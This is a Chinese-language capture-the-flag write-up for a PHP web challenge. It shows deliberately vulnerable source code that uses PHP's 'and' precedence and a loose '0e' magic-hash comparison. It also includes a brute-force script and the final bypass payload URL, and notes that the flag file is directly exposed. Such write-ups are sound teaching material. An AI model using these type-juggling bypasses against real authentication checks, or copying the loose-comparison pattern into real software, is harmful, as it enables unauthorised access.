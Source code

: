 ### `0x00` 前言

​	我一直都认为，思维方式其实比知识更加重要，于是本题故意留了一个漏洞，这里的`flag`文件是可以直接访问的。也就是说我们想要拿到`flag`根本不需要费那么大的力气。

### `0x01` WP

#### 1.解法一

直接访问 `http://146.56.204.138:13333/flag`，打开`F12`就可以看到`flag`了。

![image-20210206152228165](https://i.loli.net/2021/02/06/Aj6cSf5OTPR93NJ.png)

#### 2.解法二

题目直接给出了源码:

```php
<?php
include "flag";
if(!$_GET['source']){    
    highlight_file(__FILE__);
}
$a = $_GET['a'];
$b = $_GET['b'];
$c = $_GET['c'];
$check = $a and $b;
if($check){
    if($a and $b){
        die("No flag!Try it again!");
    }
    else{
        if($c == md5($c)){
            die($flag);
        }
    }
}
else{
    die("Are You kidding?");
}
```

简单看一下就可以发现，我们想要获得`flag`需要满足以下的条件:

```php
1.$check为true 并且 $a and $b 为false
2.$c == md5($c)
```

我们先来看条件一:

看上去是一个逻辑悖论，但实际上对于`php`来说`and`这个操作符是有`bug`的。这个操作符只会取$a位置的值来做判断。考虑下面一行代码:

```php
$check = 1 and 0; //返回 true
```

于是我们可以使用`GET`方法传入`?a=1&b=0`轻松绕过。

我们继续来看条件二:

```php
$c == md5($c)
```

这个条件看上去根本不可能成立，奈何在`php`中有一个东西叫做弱类型比较。通过弱类型比较，我们只要让`$c`是一个`0e`开头的字符串，而`md5`后的`$c`也是`0e`开头的字符串就可以了。

PS: 原理是弱类型比较中，`0e`开头的字符串会被当做科学计数法。而0开头的科学计数法怎么都是0吧。

所以我们可以写一个脚本来自动的跑出结果:

```php
<?php
for($i = 0; $i < 10000000000; $i++){
	$j = "0e".$i;
	if($j == md5($j)){
		echo $j;
		break;
	}
}
?>
    
//跑出结果为 0e215962017
```

那么我们就可以写出最后的`payload`:

```php
http://192.168.193.128:13333/?a=1&b=0&c=0e215962017
```

![image-20210206154546762](https://i.loli.net/2021/02/06/thpLebMWHB3GSCQ.png)